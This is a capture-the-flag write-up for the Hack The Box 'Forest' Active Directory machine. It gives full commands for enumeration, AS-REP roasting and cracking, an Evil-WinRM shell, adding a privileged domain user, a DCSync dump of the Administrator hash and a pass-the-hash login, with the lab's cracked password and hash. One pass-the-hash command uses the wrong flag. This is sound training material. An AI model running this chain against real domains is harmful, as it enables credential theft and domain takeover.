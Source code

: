 ```yaml
---
layout: default
title: "Forest"
---
```


# Forest writeup

Forest is an awesome Windows-based machine, difficulty was set as “Easy”, user score is 4.6.  
This machine is all about Active Directory exploitation.

---

## Content table
- Enumeration
- Exploitation with Impacket and Evil-WinRM
- Privilege escalation with BloodHound and Impacket
- Links

---

## Enumeration
Start with nmap scan:
```
nmap -sS -sV -p- 10.10.10.161PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
88/tcp    open  kerberos-sec Microsoft Windows Kerberos
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

Continue with `enum4linux`:

```
enum4linux -a forest.htb
```

Output is massive, but contain some useful information:

- `FOREST.htb.local` is the domain controller
- `EXCH01.htb.local` is an Exchange server
-  Users sebastian, santi, andy, lucinda, mark and svc-alfresco

---

## Exploitation

AS-REP Roasting is an attack against Kerberos for user accounts that do not require preauthentication. During preauthentication, a user will enter their password which will be used to encrypt a timestamp and then the domain controller will attempt to decrypt it and validate that the right password was used and that it is not replaying a previous request.
If a user is configured to not require Kerberos pre-authentication, anyone can send a request (AS_REQ) to the KDC and receive a response (AS_REP). The response contains an encrypted chunk of data related to that user that can be cracked offline to retrieve the user password. This can be automatized with tools like Impacket GetNPUsers.py:

```
GetNPUsers.py htb.local/ -usersfile users.txt -format john
```

We get a hash for a service account `svc-alfresco`, now it’s time to crack it with `john`:

```
john --wordlist=./rockyou.txt hash.txt
```

The password is `s3rvice`.

As we got in nmap results 5985 port is open which used for windows remote management we can use `Evil-WinRM` to pop up a shell:

```
evil-winrm -u svc-alfresco -p s3rvice -I 10.10.10.161 -s ‘BloodHound/Ingestors/’


*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

The `-s` flag here is standing for importing scripts, you can also use `-e` to import .exe files (to run the mimikatz, for example). That flag will help in Privilege Escalation phase.

---

## Privilege Escalation


User `svc-alfresco` do not have any write permissions, but as we used `-s` flag for `Evil-WinRM` it’s not needed:
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> menu
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Invoke-SharpHound
```
Evil-WinRM also have a great feature that allows you to download a .zip file from a SharpHound:
```
download remote_filename` or `download remote_filename destination_filename
```

Run a BloodHound and drag-and-drop the .zip from a SharpHound. Now we got a valid path for privileged escalation to Domain Admin.
As a service account `svc-alfresco` is the member of `Account Operators` and can create new accounts with right in `Exchange Windows Permissions` group.

Creating a new user. As Evil-WinRM is running the PowerShell by default, we can use both CMD’s and PS’s ways to do so:

```
net user z3v5 p@ssw0rd /domain /add
net group ‘Exchange Windows Permissions’ z3v5 /domain  /add
```

OR

```
$pass = ConvertTo-SecureString "p@ssw0rd" -AsPlainText -Force
New-ADUser z3v5 -AccountPassword $pass -Enabled $True
Add-ADGroupMember -Identity "Exchange Windows Permissions" -members z3v5
```

New user `z3v5` is a part of the `Exchange Windows Permissions` group now and that’s mean we can perform `DCSync` attack now. `DCSync` right allows an attacker to simulate the behavior of a Domain Controller and it has two stages:
- Discover the Domain Controller in the provided domain
- Request the Domain Controller to replicate the user credentials

To automate that we can use `secretsdump.py` from `Impacket`:
```
secretsdump.py z3v5:p@ssw0rd@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
Plenty of different options what to do with the hash of the `Administrator` account, but I followed one the `Evil-WinRM`:
```
evil-winrm -i 10.10.10.161 -u administrator -p aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

## Links
[Impacket](https://github.com/SecureAuthCorp/impacket)  
[Evil-WinRM](https://github.com/Hackplayers/evil-winrm)  
[BloodHound](https://github.com/BloodHoundAD/BloodHound)
